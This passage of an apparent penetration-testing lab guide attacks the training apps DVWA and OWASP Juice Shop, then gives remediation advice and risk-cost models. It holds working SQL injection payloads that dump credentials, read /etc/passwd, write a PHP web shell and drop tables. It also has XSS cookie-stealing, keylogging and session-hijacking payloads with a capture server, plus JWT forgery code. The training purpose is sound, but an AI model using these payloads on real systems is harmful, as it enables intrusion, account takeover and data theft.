1' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#
```

**Step 4: Data Extraction and Analysis**
```sql
-- Extract user credentials
1' UNION SELECT user,password FROM users#

-- Extract additional sensitive data
1' UNION SELECT first_name,last_name FROM users#

-- Count total records for impact assessment
1' UNION SELECT 1,COUNT(*) FROM users#
```

**Step 5: Advanced Exploitation Techniques**
```sql
-- File system access (if permissions allow)
1' UNION SELECT 1,LOAD_FILE('/etc/passwd')#

-- Write files to web directory (for web shell)
1' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

### Business Impact Quantification

**Immediate Technical Impact**:
- Complete user database compromise: 6 user accounts extracted
- Administrative password hashes obtained
- Database schema fully enumerated
- Potential for data manipulation/deletion confirmed

**Calculated Business Impact** (based on 500,000 customer scenario):

```
Direct Costs:
┌─────────────────────────────┬──────────────────┐
│ Cost Category               │ Amount           │
├─────────────────────────────┼──────────────────┤
│ Regulatory fines (GDPR)     │ $8,500,000       │
│ Customer notification       │ $2,100,000       │
│ Credit monitoring services  │ $2,100,000       │
│ Legal fees                  │ $1,800,000       │
│ Forensic investigation      │ $700,000         │
│ Incident response           │ $900,000         │
├─────────────────────────────┼──────────────────┤
│ Total Direct Costs          │ $16,100,000      │
└─────────────────────────────┴──────────────────┘

Indirect Costs:
┌─────────────────────────────┬──────────────────┐
│ Revenue loss (35% churn)    │ $17,500,000      │
│ Reputation damage           │ $5,200,000       │
│ Competitive disadvantage    │ $2,800,000       │
├─────────────────────────────┼──────────────────┤
│ Total Indirect Costs        │ $25,500,000      │
└─────────────────────────────┴──────────────────┘

TOTAL ESTIMATED IMPACT: $41,600,000
```

## DVWA Cross-Site Scripting (XSS) Testing

### Objective and Learning Outcomes
**Primary Objective**: Demonstrate XSS vulnerability exploitation leading to session hijacking and account compromise.

**Learning Outcomes**:
- Identify reflected and stored XSS vulnerabilities
- Develop custom JavaScript payloads for various attack scenarios
- Execute session hijacking attacks
- Assess business impact of XSS exploitation

### Business Impact Scenario
*"TechStart Inc., a SaaS provider with 50,000 active users, experiences a sophisticated XSS attack in their customer support portal. An attacker injects malicious JavaScript that steals session cookies when support staff view customer tickets. Over 48 hours, 200 support staff sessions are compromised, leading to unauthorized access to 15,000 customer accounts. The incident costs $3.2M in incident response, $2.8M in customer compensation, $1.5M in system remediation, and results in 12% customer churn worth $8.4M in annual recurring revenue."*

### Pre-Laboratory Setup
```bash
# Set up cookie capture server
mkdir /tmp/xss_lab
cd /tmp/xss_lab

# Create simple HTTP server for cookie collection
cat > cookie_capture.py << 'EOF'
#!/usr/bin/env python3
import http.server
import socketserver
from urllib.parse import urlparse, parse_qs
import datetime

class CookieHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        parsed_url = urlparse(self.path)
        query_params = parse_qs(parsed_url.query)
        
        if 'cookie' in query_params:
            timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
            cookie_data = query_params['cookie'][0]
            print(f"[{timestamp}] Captured cookie: {cookie_data}")
            
            with open('captured_cookies.txt', 'a') as f:
                f.write(f"[{timestamp}] {cookie_data}\n")
        
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(b'Cookie captured!')

PORT = 8000
with socketserver.TCPServer(("", PORT), CookieHandler) as httpd:
    print(f"Cookie capture server running on port {PORT}")
    httpd.serve_forever()
EOF

chmod +x cookie_capture.py
```

### Step-by-Step Testing Procedure

**Step 1: Reflected XSS Testing**
1. Navigate to: `http://127.0.0.1/dvwa/vulnerabilities/xss_r/`
2. Test basic XSS payload:
```javascript
<script>alert('XSS Vulnerability Confirmed')</script>
```

3. Advanced payload testing:
```javascript
<!-- Cookie stealing payload -->
<script>
new Image().src = "http://127.0.0.1:8000/?cookie=" + encodeURIComponent(document.cookie);
</script>

<!-- Keylogger payload -->
<script>
document.addEventListener('keypress', function(e) {
    new Image().src = "http://127.0.0.1:8000/?key=" + encodeURIComponent(e.key);
});
</script>

<!-- Session hijacking payload -->
<script>
if (document.cookie.includes('PHPSESSID')) {
    window.location = "http://127.0.0.1:8000/?session=" + encodeURIComponent(document.cookie);
}
</script>
```

**Step 2: Stored XSS Testing**
1. Navigate to: `http://127.0.0.1/dvwa/vulnerabilities/xss_s/`
2. Test persistent XSS in comment field:
```javascript
<script>
// Persistent cookie stealer
var stolen = document.cookie;
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://127.0.0.1:8000/?stored_cookie=' + encodeURIComponent(stolen), true);
xhr.send();
</script>
```

**Step 3: Session Hijacking Demonstration**
1. Start cookie capture server:
```bash
python3 cookie_capture.py &
```

2. Execute XSS payload to steal admin session
3. Capture session cookie from server logs
4. Use captured session in new browser:
```javascript
// In browser console, set stolen cookie
document.cookie = "PHPSESSID=captured_session_id; path=/";
```

5. Demonstrate unauthorized access to admin functionality

### Business Impact Analysis

```
Technical Impact:
┌─────────────────────────────┬───────────────────┐
│ Sessions compromised        │ 200 support staff │
│ User accounts accessed      │ 15,000 customers  │
│ Data exposure               │ Names, emails,    │
│                             │ support tickets   │
│ System downtime             │ 12 hours          │
└─────────────────────────────┴───────────────────┘

Financial Impact:
┌─────────────────────────────┬──────────────────┐
│ Incident response           │ $3,200,000       │
│ Customer compensation       │ $2,800,000       │
│ System remediation          │ $1,500,000       │
│ Legal and regulatory        │ $800,000         │
│ Customer churn (12%)        │ $8,400,000       │
├─────────────────────────────┼──────────────────┤
│ TOTAL IMPACT                │ $16,700,000      │
└─────────────────────────────┴──────────────────┘
```

## DVWA Broken Session Management Testing

### Objective and Learning Outcomes
**Primary Objective**: Identify and exploit session management vulnerabilities leading to unauthorized account access.

**Learning Outcomes**:
- Analyze session token generation and management
- Identify session fixation and prediction vulnerabilities
- Execute session hijacking attacks
- Assess authentication bypass techniques

### Business Impact Scenario
*"SecureBank's online banking platform serves 1.2 million customers with $45 billion in managed assets. A session management vulnerability allows attackers to predict session tokens and gain unauthorized access to customer accounts. Over a weekend, 500 accounts are compromised, resulting in $2.3 million in fraudulent transfers, $15 million in regulatory fines, $25 million in customer restitution, and $180 million in asset withdrawals as customers lose confidence in the platform's security."*

### Session Analysis Methodology

**Step 1: Session Token Collection and Analysis**
```bash
# Create session analysis directory
mkdir /tmp/session_analysis
cd /tmp/session_analysis

# Session collection script
cat > collect_sessions.py << 'EOF'
#!/usr/bin/env python3
import requests
import time
import statistics

def collect_session_tokens(url, num_sessions=50):
    sessions = []
    for i in range(num_sessions):
        response = requests.get(url)
        if 'Set-Cookie' in response.headers:
            cookie_header = response.headers['Set-Cookie']
            if 'PHPSESSID=' in cookie_header:
                session_id = cookie_header.split('PHPSESSID=')[1].split(';')[0]
                sessions.append(session_id)
                print(f"Session {i+1}: {session_id}")
        time.sleep(1)
    return sessions

# Collect sessions from DVWA
url = "http://127.0.0.1/dvwa/login.php"
print("Collecting session tokens...")
session_tokens = collect_session_tokens(url, 25)

print(f"\nAnalyzing {len(session_tokens)} session tokens...")
# Additional analysis code here
EOF

chmod +x collect_sessions.py
```

**Step 2: Session Fixation Testing**
```bash
# Get initial session
curl -c cookies.txt http://127.0.0.1/dvwa/login.php
grep PHPSESSID cookies.txt

# Check session after login
curl -b cookies.txt -c cookies_after.txt -d "username=admin&password=password&Login=Login" http://127.0.0.1/dvwa/login.php
grep PHPSESSID cookies_after.txt
```

### Business Impact Quantification

```
Direct Fraud Losses:
┌─────────────────────────────┬──────────────────┐
│ Unauthorized transfers      │ $2,300,000       │
│ Account takeover costs      │ $1,200,000       │
│ Fraud investigation         │ $800,000         │
├─────────────────────────────┼──────────────────┤
│ Subtotal                    │ $4,300,000       │
└─────────────────────────────┴──────────────────┘

Regulatory and Legal:
┌─────────────────────────────┬──────────────────┐
│ Regulatory fines            │ $15,000,000      │
│ Legal fees                  │ $3,500,000       │
│ Compliance remediation      │ $2,200,000       │
├─────────────────────────────┼──────────────────┤
│ Subtotal                    │ $20,700,000      │
└─────────────────────────────┴──────────────────┘

Customer Impact:
┌─────────────────────────────┬──────────────────┐
│ Restitution payments        │ $25,000,000      │
│ Customer notification       │ $1,800,000       │
│ Credit monitoring           │ $3,200,000       │
│ Asset withdrawals           │ $180,000,000     │
├─────────────────────────────┼──────────────────┤
│ Subtotal                    │ $210,000,000     │
└─────────────────────────────┴──────────────────┘

TOTAL ESTIMATED IMPACT: $235,000,000
```

---

# 🧃 OWASP Juice Shop Penetration Testing

## Initial Juice Shop Reconnaissance

### Step 1: Application Mapping
```bash
# Use Burp Suite to map Juice Shop API
# Start Burp and configure browser proxy to 127.0.0.1:8080

# Navigate through application to discover endpoints
# Key endpoints to analyze:
# POST /rest/user/login
# GET /rest/products/search
# GET /rest/user/whoami
# POST /rest/user/data-export
```

### Step 2: Nikto Scanning of Juice Shop
```bash
# Run Nikto scan on Juice Shop
nikto -h http://localhost:3000 -o juiceshop_nikto_scan.html -Format htm
```

## Juice Shop Modern SQL Injection Testing

### Objective and Learning Outcomes
**Primary Objective**: Exploit SQL injection vulnerabilities in a modern JavaScript/Node.js application with SQLite backend.

**Learning Outcomes**:
- Identify NoSQL and traditional SQL injection in modern frameworks
- Understand ORM injection techniques
- Exploit JSON-based parameter injection
- Assess cloud-scale application vulnerabilities

### Business Impact Scenario
*"CloudCommerce, a modern e-commerce platform built on Node.js serving 2.8 million customers globally with $2.1 billion in annual transactions, suffers a sophisticated SQL injection attack through their REST API endpoints. Attackers exploit parameterized queries in the user authentication system and product search functionality, extracting complete customer databases including encrypted payment tokens, personal information, and purchase histories. The breach affects 2.8 million users across 47 countries, resulting in $89 million in regulatory fines, $156 million in legal settlements, $45 million in system remediation, and $890 million in lost business over 18 months."*

### Advanced Testing Procedures

**Step 1: Authentication Bypass Testing**
1. Navigate to login page: `http://localhost:3000/#/login`
2. Test SQL injection in login form:
```json
{
  "email": "admin@juice-sh.op'--",
  "password": "anything"
}

{
  "email": "admin@juice-sh.op' OR '1'='1'--",
  "password": "password"
}

{
  "email": "' UNION SELECT * FROM Users--",
  "password": "password"
}
```

**Step 2: Product Search Injection**
```bash
# Test search endpoint with SQLite-specific payloads
curl -X GET "http://localhost:3000/rest/products/search?q=apple'; DROP TABLE Products;--"

# SQLite version detection
curl -X GET "http://localhost:3000/rest/products/search?q=apple' UNION SELECT sqlite_version(),1,1,1,1,1,1,1,1--"

# Table enumeration
curl -X GET "http://localhost:3000/rest/products/search?q=apple' UNION SELECT name,sql,1,1,1,1,1,1,1 FROM sqlite_master WHERE type='table'--"
```

**Step 3: Advanced Data Extraction**
```bash
# Extract user data with complete schema
curl -X GET "http://localhost:3000/rest/products/search?q=apple' UNION SELECT email,password,role,1,1,1,1,1,1 FROM Users--"

# Extract customer addresses
curl -X GET "http://localhost:3000/rest/products/search?q=apple' UNION SELECT fullName,mobileNumber,zipCode,1,1,1,1,1,1 FROM Addresses--"

# Extract order information
curl -X GET "http://localhost:3000/rest/products/search?q=apple' UNION SELECT email,totalPrice,delivered,1,1,1,1,1,1 FROM Orders JOIN Users ON Orders.UserId = Users.id--"
```

### Business Impact Analysis for Modern Applications

**Cloud-Scale Impact Assessment**:
- Database records compromised: 2.8 million users
- Geographic scope: 47 countries
- Transaction data exposed: $2.1 billion in annual volume
- API endpoints vulnerable: 12 critical endpoints

**Modern Application Specific Risks**:

## Microservices Impact Assessment

| **Microservices Component** | **Impact Description** |
|------------------------------|------------------------|
| 🔐 **Authentication service** | Complete user base compromise |
| 💳 **Payment processing** | Credit card token exposure |
| 🎯 **Recommendation engine** | User behavior profile theft |
| 📦 **Inventory management** | Supplier information disclosure |

## API Security Failures

| **API Security Vulnerability** | **Attack Vector Description** |
|---------------------------------|--------------------------------|
| 🌐 **REST endpoint injection** | 12 vulnerable endpoints |
| 📊 **GraphQL injection potential** | Query complexity attacks |
| 🔄 **JSON parameter pollution** | Data type confusion |
| 🗄️ **NoSQL injection** | Document database compromise |

## Juice Shop Advanced XSS Testing

### Modern XSS Attack Vectors

**Step 1: Client-Side Template Injection**
```javascript
// Angular template injection in search
{{constructor.constructor('alert(1)')()}}

// Vue.js template injection
{{this.constructor.constructor('alert("XSS")')()}}

// React XSS through dangerouslySetInnerHTML

```

**Step 2: Service Worker Manipulation**
```javascript
// Register malicious service worker
navigator.serviceWorker.register('data:application/javascript,self.addEventListener("fetch",function(e){console.log("Service Worker XSS")});');
```

**Step 3: WebSocket XSS**
```javascript
// XSS through WebSocket messages
var ws = new WebSocket('ws://localhost:3000');
ws.onopen = function() {
    ws.send(JSON.stringify({
        message: '<script>alert("WebSocket XSS")</script>',
        user: 'attacker'
    }));
};
```

## Juice Shop JWT Authentication Attacks

### JWT Token Analysis and Manipulation

**Step 1: JWT Token Extraction and Analysis**
```bash
# Login and capture JWT token
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@juice-sh.op","password":"admin123"}' \
  -c cookies.txt

# Decode JWT components
cat > decode_jwt.py << 'EOF'
#!/usr/bin/env python3
import base64
import json
import sys

def decode_jwt_component(component):
    # Add padding if necessary
    component += '=' * (4 - len(component) % 4)
    try:
        decoded = base64.urlsafe_b64decode(component)
        return json.loads(decoded.decode('utf-8'))
    except:
        return base64.urlsafe_b64decode(component).decode('utf-8')

if len(sys.argv) != 2:
    print("Usage: python3 decode_jwt.py <jwt_token>")
    sys.exit(1)

jwt_token = sys.argv[1]
parts = jwt_token.split('.')

if len(parts) != 3:
    print("Invalid JWT token format")
    sys.exit(1)

header = decode_jwt_component(parts[0])
payload = decode_jwt_component(parts[1])
signature = parts[2]

print("JWT Header:")
print(json.dumps(header, indent=2))
print("\nJWT Payload:")
print(json.dumps(payload, indent=2))
print(f"\nSignature: {signature}")
EOF

chmod +x decode_jwt.py
```

**Step 2: JWT Vulnerability Testing**
```bash
# Test algorithm confusion attack
# Test null signature
# Test key confusion

cat > jwt_attacks.py << 'EOF'
#!/usr/bin/env python3
import jwt
import json

def test_algorithm_confusion(token):
    try:
        # Decode without verification to get payload
        payload = jwt.decode(token, options={"verify_signature": False})
        
        # Create new token with none algorithm
        none_token = jwt.encode(payload, "", algorithm="none")
        print(f"None algorithm token: {none_token}")
        
        # Create token with weak secret
        weak_token = jwt.encode(payload, "secret", algorithm="HS256")
        print(f"Weak secret token: {weak_token}")
        
        return none_token, weak_token
    except Exception as e:
        print(f"Error: {e}")
        return None, None
EOF
```

### Business Impact Assessment

## Financial Impact Assessment

| **Financial Impact Category** | **Impact Description** |
|-------------------------------|------------------------|
| 💰 **Unauthorized transactions** | $15,000,000 |
| 📊 **Data exfiltration** | 500,000 customer records |
| ⚙️ **System manipulation** | Price changes, inventory theft |
| ⚖️ **Compliance violations** | GDPR, PCI-DSS, SOX |

## Operational Impact Assessment

| **Operational Impact Category** | **Impact Description** |
|---------------------------------|------------------------|
| 🚫 **Service disruption** | 24-hour platform outage |
| 📉 **Customer trust erosion** | 25% user churn |
| 🔍 **Regulatory investigation** | 18-month compliance audit |
| 🔧 **System rebuild** | $8,500,000 security overhaul |

---

# 📊 Testing Results and Analysis

## DVWA Testing Results Summary

### SQL Injection Testing Results

| **Test Case** | **Result** |
|---------------|------------|
| 🔍 **Boolean-based injection** | [ ] **SUCCESSFUL** - All records retrieved |
| ⚠️ **Error-based injection** | [ ] **SUCCESSFUL** - Database structure exposed |
| 🔗 **Union-based injection** | [ ] **SUCCESSFUL** - Data extraction possible |
| 📁 **File system access** | [ ] **PARTIAL** - Depends on permissions |
| 🐚 **Web shell upload** | [ ] **PARTIAL** - Directory writable |

### XSS Testing Results

| **Test Case** | **Result** |
|---------------|------------|
| 🔄 **Reflected XSS** | [ ] **SUCCESSFUL** - Script execution |
| 💾 **Stored XSS** | [ ] **SUCCESSFUL** - Persistent payload |
| 🍪 **Cookie stealing** | [ ] **SUCCESSFUL** - Session tokens captured |
| 🔐 **Session hijacking** | [ ] **SUCCESSFUL** - Admin access gained |
| 🎨 **DOM manipulation** | [ ] **SUCCESSFUL** - Page defacement |

## Session Management Testing Results

| **Test Case** | **Result** |
|---------------|------------|
| 🔗 **Session fixation** | [ ] **VULNERABLE** - Session ID unchanged |
| 🎲 **Session prediction** | [ ] **MEDIUM** - Some randomness present |
| ⏰ **Session timeout** | [ ] **WEAK** - Extended timeout period |
| 🔄 **Session regeneration** | [ ] **MISSING** - No regeneration on login |
| 🍪 **Secure cookie flags** | [ ] **MISSING** - HTTP-only not set |

## OWASP Juice Shop Testing Results Summary

### Modern SQL Injection Results

| **Test Case** | **Result** |
|---------------|------------|
| 🚪 **Authentication bypass** | [ ] **SUCCESSFUL** - Admin access gained |
| 🗄️ **SQLite injection** | [ ] **SUCCESSFUL** - Database enumeration |
| 🌐 **API endpoint injection** | [ ] **SUCCESSFUL** - Multiple endpoints |
| 🔄 **JSON parameter pollution** | [ ] **SUCCESSFUL** - Data type confusion |
| 🛡️ **ORM injection** | [ ] **PARTIAL** - Some protections present |

### Modern XSS Results

| **Test Case** | **Result** |
|---------------|------------|
| 📝 **Template injection** | [ ] **SUCCESSFUL** - Angular/Vue bypass |
| ⚙️ **Service Worker manipulation** | [ ] **SUCCESSFUL** - Background execution |
| 🔌 **WebSocket XSS** | [ ] **SUCCESSFUL** - Real-time communication |
| 🛡️ **CSP bypass** | [ ] **PARTIAL** - Some restrictions active |
| 🌐 **DOM clobbering** | [ ] **SUCCESSFUL** - Global object pollution |

### JWT Authentication Results

| **Test Case** | **Result** |
|---------------|------------|
| 🔀 **Algorithm confusion** | [ ] **SUCCESSFUL** - None algorithm accepted |
| 🔑 **Weak secret exploitation** | [ ] **SUCCESSFUL** - Predictable key |
| 🎭 **Token manipulation** | [ ] **SUCCESSFUL** - Role elevation |
| ✍️ **Signature bypass** | [ ] **SUCCESSFUL** - Verification disabled |
| ⏱️ **Expiration bypass** | [ ] **PARTIAL** - Some validation present |

---

# 🔧 Alternative Solutions and Recommendations

## SQL Injection Prevention

### Secure Coding Practices
```sql
-- ✅ Correct: Parameterized queries
SELECT * FROM users WHERE id = ? AND status = ?

-- ❌ Incorrect: String concatenation
SELECT * FROM users WHERE id = '" + userId + "' AND status = '" + status + "'"

-- Input validation example
if (!is_numeric($user_id)) {
    throw new InvalidArgumentException("User ID must be numeric");
}
```

### Database Security Measures
```bash
# Database hardening for MySQL/MariaDB
sudo mysql_secure_installation

# Create limited privilege user for application
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE ON webapp_db.* TO 'webapp'@'localhost';
FLUSH PRIVILEGES;
```

## XSS Prevention Techniques

### Output Encoding Implementation
```javascript
// ✅ Output encoding function
function htmlEncode(input) {
    const entityMap = {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#x27;',
        '/': '&#x2F;'
    };
    return input.replace(/[&<>"'\/]/g, match => entityMap[match]);
}

// ✅ Content Security Policy header
app.use((req, res, next) => {
    res.setHeader('Content-Security-Policy', 
        "default-src 'self'; script-src 'self' 'unsafe-inline'");
    next();
});
```

### Input Validation and Sanitization
```php
// ✅ Input sanitization
$clean_input = filter_var($user_input, FILTER_SANITIZE_STRING);
$clean_input = htmlspecialchars($clean_input, ENT_QUOTES, 'UTF-8');
```

## Session Security Implementation

### Secure Session Configuration
```php
// ✅ Secure session configuration
ini_set('session.cookie_httponly', 1);
ini_set('session.cookie_secure', 1);
ini_set('session.cookie_samesite', 'Strict');
ini_set('session.use_strict_mode', 1);
ini_set('session.gc_maxlifetime', 1800); // 30 minutes

// Session regeneration after authentication
session_regenerate_id(true);

// Session timeout validation
if (isset($_SESSION['last_activity']) && 
    (time() - $_SESSION['last_activity'] > 1800)) {
    session_destroy();
    header('Location: login.php');
    exit();
}
$_SESSION['last_activity'] = time();
```

### JWT Security Best Practices
```javascript
// ✅ Secure JWT implementation
const jwt = require('jsonwebtoken');
const crypto = require('crypto');

// Use strong secret key
const secretKey = crypto.randomBytes(64).toString('hex');

// Generate secure token
const token = jwt.sign(
    { 
        userId: user.id, 
        role: user.role,
        exp: Math.floor(Date.now() / 1000) + 3600 // 1 hour
    },
    secretKey,
    { algorithm: 'HS256' }
);

// Verify token with proper error handling
function verifyToken(token) {
    try {
        return jwt.verify(token, secretKey);
    } catch (error) {
        throw new Error('Invalid token');
    }
}
```

---

# 📈 Business Impact Models and Implementation

## FAIR (Factor Analysis of Information Risk) Model

### Model Explanation
The FAIR model provides a quantitative framework for understanding, analyzing, and measuring information risk. It breaks down risk into two primary factors: the probability of an event occurring and the magnitude of impact if it does occur.

### FAIR Model Components

```
Risk Calculation Framework:
┌─────────────────────────────────────────────────────────────────┐
│                        FAIR Risk Model                          │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  Risk = Threat Event Frequency × Vulnerability × Asset Value    │
│                                                                 │
│  Where:                                                         │
│  • Threat Event Frequency = Attack attempts per year            │
│  • Vulnerability = Probability of successful exploitation       │
│  • Asset Value = Financial value of compromised asset           │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

### Step-by-Step Implementation

**Step 1: Asset Valuation**
```python
def calculate_asset_value(data_records, avg_record_value, regulatory_multiplier):
    """
    Calculate total asset value considering data records and regulatory impact
    """
    base_value = data_records * avg_record_value
    regulatory_impact = base_value * regulatory_multiplier
    total_asset_value = base_value + regulatory_impact
    
    return {
        'base_value': base_value,
        'regulatory_impact': regulatory_impact,
        'total_value': total_asset_value
    }

# Example calculation
customer_records = 500000
avg_record_value = 150  # Average value per customer record
regulatory_multiplier = 0.25  # 25% additional for regulatory fines

asset_value = calculate_asset_value(customer_records, avg_record_value, regulatory_multiplier)
print(f"Total asset value: ${asset_value['total_value']:,.2f}")
```

**Step 2: Threat Event Frequency Assessment**
```python
def assess_threat_frequency(industry_type, company_size, security_posture):
    """
    Assess threat event frequency based on company characteristics
    """
    base_frequency = {
        'financial': 24,      # 24 attempts per year
        'healthcare': 18,     # 18 attempts per year
        'retail': 15,         # 15 attempts per year
        'government': 30,     # 30 attempts per year
        'technology': 20      # 20 attempts per year
    }
    
    size_multiplier = {
        'small': 0.7,         # Smaller companies targeted less
        'medium': 1.0,        # Baseline
        'large': 1.3,         # Larger companies targeted more
        'enterprise': 1.6     # Enterprise heavily targeted
    }
    
    security_modifier = {
        'poor': 1.5,          # Poor security = more attempts
        'average': 1.0,       # Baseline
        'good': 0.7,          # Good security deters some attacks
        'excellent': 0.5      # Excellent security deters many
    }
    
    frequency = (base_frequency.get(industry_type, 15) * 
                size_multiplier.get(company_size, 1.0) * 
                security_modifier.get(security_posture, 1.0))
    
    return frequency

# Example assessment
threat_freq = assess_threat_frequency('financial', 'large', 'average')
print(f"Estimated threat event frequency: {threat_freq:.1f} per year")
```

**Step 3: Vulnerability Assessment**
```python
def calculate_vulnerability_score(technical_controls, process_controls, awareness_level):
    """
    Calculate vulnerability score based on security controls
    """
    # Technical controls (0.0 to 1.0, lower is better)
    tech_score = {
        'none': 0.9,
        'basic': 0.7,
        'standard': 0.5,
        'advanced': 0.3,
        'comprehensive': 0.1
    }
    
    # Process controls (0.0 to 1.0, lower is better)
    process_score = {
        'none': 0.8,
        'basic': 0.6,
        'standard': 0.4,
        'mature': 0.2,
        'optimized': 0.1
    }
    
    # Awareness level (0.0 to 1.0, lower is better)
    awareness_score = {
        'none': 0.9,
        'basic': 0.7,
        'good': 0.5,
        'excellent': 0.3
    }
    
    # Weighted average (technical controls have highest impact)
    vulnerability = (tech_score.get(technical_controls, 0.7) * 0.5 +
                    process_score.get(process_controls, 0.6) * 0.3 +
                    awareness_score.get(awareness_level, 0.7) * 0.2)
    
    return vulnerability

# Example vulnerability assessment
vuln_score = calculate_vulnerability_score('standard', 'basic', 'good')
print(f"Vulnerability score: {vuln_score:.2f}")
```

**Step 4: Complete Risk Calculation**
```python
def calculate_fair_risk(asset_value, threat_frequency, vulnerability, loss_magnitude=0.6):
    """
    Calculate complete FAIR risk assessment
    """
    # Annual Loss Expectancy calculation
    ale = asset_value * threat_frequency * vulnerability * loss_magnitude
    
    # Risk categorization
    if ale >= 10000000:  # $10M+
        risk_level = "Critical"
    elif ale >= 1000000:  # $1M+
        risk_level = "High"
    elif ale >= 100000:   # $100K+
        risk_level = "Medium"
    else:
        risk_level = "Low"
    
    return {
        'annual_loss_expectancy': ale,
        'risk_level': risk_level,
        'components': {
            'asset_value': asset_value,
            'threat_frequency': threat_frequency,
            'vulnerability': vulnerability,
            'loss_magnitude': loss_magnitude
        }
    }

# Complete FAIR assessment
fair_risk = calculate_fair_risk(
    asset_value=75000000,  # $75M asset value
    threat_frequency=20.8,  # ~21 attempts per year
    vulnerability=0.52,     # 52% chance of success
    loss_magnitude=0.6      # 60% of asset value lost
)

print(f"Annual Loss Expectancy: ${fair_risk['annual_loss_expectancy']:,.2f}")
print(f"Risk Level: {fair_risk['risk_level']}")
```

## Customer Churn Impact Model

### Model Explanation
This model calculates the financial impact of customer churn following a security incident, considering different churn rates over time and the diminishing value of customer relationships.

### Churn Model Implementation

```python
def calculate_customer_churn_impact(customers_affected, avg_customer_value, churn_rates):
    """
    Calculate financial impact of customer churn following security incident
    """
    immediate_churn = churn_rates['immediate']  # 0-30 days
    short_term_churn = churn_rates['short_term']  # 30-90 days
    long_term_churn = churn_rates['long_term']  # 90-365 days
    
    # Calculate customers lost in each period
    immediate_lost = customers_affected * immediate_churn
    remaining_after_immediate = customers_affected - immediate_lost
    
    short_term_lost = remaining_after_immediate * short_term_churn
    remaining_after_short = remaining_after_immediate - short_term_lost
    
    long_term_lost = remaining_after_short * long_term_churn
    
    # Calculate revenue impact with diminishing recovery potential
    immediate_impact = immediate_lost * avg_customer_value
    short_term_impact = short_term_lost * avg_customer_value * 0.8  # 80% value
    long_term_impact = long_term_lost * avg_customer_value * 0.6   # 60% value
    
    total_churn_impact = immediate_impact + short_term_impact + long_term_impact
    
    return {
        'customers_lost': immediate_lost + short_term_lost + long_term_lost,
        'revenue_impact': total_churn_impact,
        'breakdown': {
            'immediate': immediate_impact,
            'short_term': short_term_impact,
            'long_term': long_term_impact
        },
        'recovery_potential': {
            'high': immediate_lost * 0.1,      # 10% might return quickly
            'medium': short_term_lost * 0.25,  # 25% might return eventually
            'low': long_term_lost * 0.05       # 5% might return long-term
        }
    }

# Example e-commerce breach scenario
customers_affected = 500000
avg_customer_value = 450  # Annual customer value
churn_rates = {
    'immediate': 0.15,    # 15% churn in first 30 days
    'short_term': 0.12,   # 12% additional churn in next 60 days
    'long_term': 0.08     # 8% additional churn over remainder of year
}

churn_impact = calculate_customer_churn_impact(customers_affected, avg_customer_value, churn_rates)

print("Customer Churn Impact Analysis:")
print(f"Total customers lost: {churn_impact['customers_lost']:,.0f}")
print(f"Total revenue impact: ${churn_impact['revenue_impact']:,.2f}")
print(f"Immediate impact: ${churn_impact['breakdown']['immediate']:,.2f}")
print(f"Short-term impact: ${churn_impact['breakdown']['short_term']:,.2f}")
print(f"Long-term impact: ${churn_impact['breakdown']['long_term']:,.2f}")
```

## Regulatory Compliance Cost Model

### GDPR Fine Calculation Implementation

```python
def calculate_gdpr_fine(annual_turnover, affected_records, violation_type, mitigating_factors=None):
    """
    Calculate potential GDPR fine based on violation characteristics
    """
    if mitigating_factors is None:
        mitigating_factors = {}
    
    # Article 83 base fine calculations
    severity_multiplier = {
        'data_breach': 0.02,           # 2% of turnover
        'consent_violation': 0.015,    # 1.5% of turnover
        'data_subject_rights': 0.01,   # 1% of turnover
        'technical_measures': 0.025,   # 2.5% of turnover
        'processing_principles': 0.02   # 2% of turnover
    }
    
    base_fine = annual_turnover * severity_multiplier.get(violation_type, 0.02)
    
    # Mitigating factors (Article 83(2)(a-k))
    cooperation_discount = 1.0 - mitigating_factors.get('cooperation_level', 0) * 0.3
    remediation_discount = 1.0 - mitigating_factors.get('remediation_speed', 0) * 0.2
    first_violation_discount = 1.0 - mitigating_factors.get('first_violation', 0) * 0.3
    
    # Aggravating factors
    if affected_records > 10000000:  # 10M+ records
        scale_multiplier = 1.8
    elif affected_records > 1000000:  # 1M+ records
        scale_multiplier = 1.5
    elif affected_records > 100000:   # 100K+ records
        scale_multiplier = 1.2
    else:
        scale_multiplier = 1.0
    
    # Apply all factors
    calculated_fine = (base_fine * 
                      cooperation_discount * 
                      remediation_discount * 
                      first_violation_discount * 
                      scale_multiplier)
    
    # Cap at €20M or 4% of turnover, whichever is higher
    max_fine_amount = max(20000000, annual_turnover * 0.04)
    final_fine = min(calculated_fine, max_fine_amount)
    
    return {
        'base_fine': base_fine,
        'calculated_fine': calculated_fine,
        'final_fine': final_fine,
        'factors': {
            'cooperation_discount': cooperation_discount,
            'remediation_discount': remediation_discount,
            'first_violation_discount': first_violation_discount,
            'scale_multiplier': scale_multiplier
        }
    }

# Example GDPR fine calculation
annual_turnover = 500000000  # €500M annual turnover
affected_records = 250000    # 250K affected individuals
violation_type = 'data_breach'
mitigating_factors = {
    'cooperation_level': 0.7,    # Good cooperation (70%)
    'remediation_speed': 0.5,    # Moderate remediation speed (50%)
    'first_violation': 1.0       # First violation (100% discount eligibility)
}

gdpr_fine = calculate_gdpr_fine(annual_turnover, affected_records, violation_type, mitigating_factors)

print("GDPR Fine Calculation:")
print(f"Base fine: €{gdpr_fine['base_fine']:,.2f}")
print(f"Calculated fine: €{gdpr_fine['calculated_fine']:,.2f}")
print(f"Final fine: €{gdpr_fine['final_fine']:,.2f}")
```

## Comprehensive Risk Assessment Implementation

### Complete Implementation Script for Kali Linux

```bash
#!/bin/bash
# Comprehensive Risk Assessment Script for Kali Linux
# Usage: ./risk_assessment.sh <target_domain> <company_size> <industry>

TARGET_DOMAIN="$1"
COMPANY_SIZE="$2"
INDUSTRY="$3"
